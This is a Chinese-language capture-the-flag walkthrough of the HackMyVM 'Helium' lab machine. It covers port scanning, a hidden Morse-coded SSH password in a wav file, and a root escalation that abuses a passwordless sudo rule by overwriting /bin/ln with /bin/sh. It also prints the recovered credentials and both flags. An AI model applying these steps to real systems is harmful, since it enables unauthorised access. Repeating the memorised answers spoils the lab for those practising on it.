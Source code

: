 # Helium

:::note

[Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2020-11-22

✔️ MD5 // 6c034ba16620358483d344f0572ad020

☠ Root // 159

💀 User // 163

📝Notes //
Enjoy. Tested on virtualbox.

:::

## 靶机启动

![靶机启动](img/image_20231251-225142.png)

靶机 IP：

```plaintext
192.168.56.110
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.110
Host is up (0.00051s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 12f6555fc6fafb1415ae4a2b38d84a30 (RSA)
|   256 b7ac876dc4f9e39ad46ee04fdaaa2220 (ECDSA)
|_  256 fee805af234d3a822a649bf735e4444a (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-title: RELAX
|_http-server-header: nginx/1.14.2
MAC Address: 08:00:27:0E:BF:60 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 探测 web 服务

![直接访问](img/image_20231253-225358.png)

查看原始返回

```bash
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Vulny]
└──╼ $http get http://192.168.56.110/
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html
Date: Sat, 23 Dec 2023 14:54:31 GMT
ETag: W/"5fbaba1e-212"
Last-Modified: Sun, 22 Nov 2020 19:21:02 GMT
Server: nginx/1.14.2
Transfer-Encoding: chunked

<title>RELAX</title>
<!doctype html>
<html lang="en">

<!-- Please paul, stop uploading weird .wav files using /upload_sound -->

<head>
<style>
body {
  background-image: url('screen-1.jpg');
  background-repeat: no-repeat;
  background-attachment: fixed;
  background-size: 100% 100%;
}
</style>
    <link href="bootstrap.min.css" rel="stylesheet">
    <meta name="viewport" content="width=device-width, initial-scale=1">
</head>

<body>
<audio src="relax.wav" preload="auto loop" controls></audio>
</body>
```

发现可能存在以下用户

```plaintext
paul
```

尝试目录扫描，并结合已经得到信息，得到以下信息

```plaintext
http://192.168.56.110/upload_sound/
http://192.168.56.110/yay/
http://192.168.56.110/bootstrap.min.css
```

访问 `http://192.168.56.110/bootstrap.min.css` 得到：

```plaintext
/yay/mysecretsound.wav
```

## 分析 wav 文件

将文件下载到本地后，使用 `audacity` 进行查看

![audacity 直接打开](img/image_20231216-111632.png)

发现频谱图存在信息，使用 [Morse Code Adaptive Audio Decoder | Morse Code World](https://morsecode.world/international/decoder/audio-decoder-adaptive.html) 进行查看

![Morse Code World 在线解析](img/image_20231218-111805.png)

发现提取出来两份字符串：

```plaintext
ETAIE4SIET
dancingpassyo
```

结合上文得到的用户名，怀疑是 SSH 的登录凭据

## 凭据利用

利用一下凭据

```plaintext
paul:dancingpassyo
```

登陆成功

```bash
┌─[randark@randark-Parrot]─[~]
└──╼ $pwncat-cs paul@192.168.56.110
[11:24:13] Welcome to pwncat 🐈!                                                                                      __main__.py:164
Password: *************
[11:24:20] 192.168.56.110:22: normalizing shell path                                                                   manager.py:957
[11:24:21] 192.168.56.110:22: registered new host w/ db                                                                manager.py:957
(local) pwncat$ back
(remote) paul@helium:/home/paul$ whoami
paul
```

## user pwned

```bash
(remote) paul@helium:/home/paul$ cat user.txt
ilovetoberelaxed
```

## 提权探测

```plaintext title="sudo -l"
Matching Defaults entries for paul on helium:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User paul may run the following commands on helium:
    (ALL : ALL) NOPASSWD: /usr/bin/ln
```

发现可以无密码执行 `/usr/bin/ln` 程序

## 尝试提权

```bash
(remote) paul@helium:/home/paul$ sudo ln -fs /bin/sh /bin/ln
(remote) paul@helium:/home/paul$ sudo ln
[](remote)[] []root@helium[]:[]/home/paul[]$ whoami
root
```

## root pwned

```bash
[](remote)[] []root@helium[]:[]/root[]$ cat root.txt
ilovetoberoot
```

